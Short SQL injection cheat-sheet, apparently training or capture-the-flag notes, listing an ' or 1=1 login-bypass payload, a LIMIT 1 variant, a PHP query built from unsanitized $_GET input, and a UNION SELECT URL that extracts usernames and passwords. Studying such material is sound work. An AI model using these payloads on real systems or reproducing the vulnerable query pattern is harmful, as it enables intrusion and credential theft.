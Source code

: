 ### Identifying SQL Injection Vulnerabilities
```
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```

### Authentication Bypass
```
Some programming languages have functions that query the database and expect a single record. If these functions get more than one row, they will generate an error
select * from users where name = 'tom' or 1=1 LIMIT 1;#

source-code:$sql = "SELECT id, name, text FROM feedback WHERE id=". $_GET['id'];
http://url/debug.php?id=1+UNION+SELECT+id,username,password,flag,time+FROM+users
```
